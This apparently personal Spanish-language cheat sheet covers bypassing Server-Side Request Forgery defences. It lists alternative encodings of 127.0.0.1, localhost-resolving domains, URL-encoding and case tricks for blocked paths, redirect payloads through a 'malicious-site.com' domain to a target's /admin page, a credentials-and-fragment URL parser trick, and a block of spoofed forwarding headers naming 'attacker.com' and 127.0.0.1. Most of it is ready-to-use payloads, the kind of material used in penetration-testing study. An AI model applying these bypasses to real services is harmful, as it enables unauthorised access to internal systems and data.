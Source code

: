 ```yaml
---

### 🚀 **Server-Side Request Forgery (SSRF) Cheat Sheet**

---
```

---
### **1. Usar Representación Alternativa de IP**
Representaciones de la IP `127.0.0.1`:
- **Decimal:** `2130706433`
- **Octal:** `017700000001`
- **Forma abreviada:** `127.1`

---

### **2. Registrar un Dominio Controlado**
Registra un dominio propio que resuelva a `127.0.0.1` para realizar pruebas o explotar la vulnerabilidad:  
- Ejemplo: `spoofed.burpcollaborator.net`

---

### **3. Ofuscar Cadenas Bloqueadas**
- **URL Encoding:** Convertir caracteres especiales. Ejemplo:  
  ```
  /admin → %2Fadmin
  ```
- **Case Variation:** Cambiar entre mayúsculas y minúsculas:  
  ```
  /Admin → /admin
  ```
---

### **4. Usar Redirecciones**
Configura una redirección en un dominio controlado para apuntar a la URL objetivo.  
- **Entrada del usuario:**  
  ```
  http://malicious-site.com/redirect?url=http://target-site.com/admin
  ```
- **Cambio de Protocolo:**  
```
  http://malicious-site.com/redirect?url=https://target-site.com/admin
```

### **5. Modificar el Referer**
- Cambiarlo para engañar validaciones, acceder a recursos internos o inyectar datos en logs/paneles si se usa sin filtrar.

### **6. Bypass mediante el uso de autentitcacion y `#`**
```
api=https://localhost:80#@domain.com
```
- Esto funciona porque en una URL la parte antes de @ se interpreta como credenciales de autenticación (usuario:contraseña@host).
- El # marca el inicio de un fragmento en la URL.
	- Todo lo que está después del # normalmente no se envía en la petición HTTP (es solo para el navegador).
	- El parser de URLs en algunos filtros interpreta https://localhost:80#@domain.com como si el host fuera localhost, pero el filtro puede equivocarse y ver domain.com.
- Esto puede permitir:
	- Bypass SSRF filters que bloquean localhost o direcciones internas pero no procesan correctamente el fragmento/usuario.
	- Engañar la validación del dominio, ya que @ en realidad cambia el host real a lo que está después.
---
## **Cabeceras HTTP para Evasión de SSRF**
Algunas cabeceras útiles para intentar redirigir o manipular la solicitud:

```http
Host: vulnerable-website.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: attacker.com
X-Forwarded-Server: attacker.com
X-Forwarded-Port: 80
Forwarded: for=127.0.0.1;host=attacker.com;proto=http
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Referer: http://attacker.com
Origin: http://attacker.com
X-Forwarded-By: 127.0.0.1
X-Forwarded-Proto: https
Via: 1.1 attacker.com
X-Api-Version: 1.0
Max-Forwards: 10
X-Wap-Profile: http://attacker.com
Proxy-Authorization: Basic Zm9vOmJhcg==
Surrogate-Capability: attacker="Surrogate/1.0"
```

---

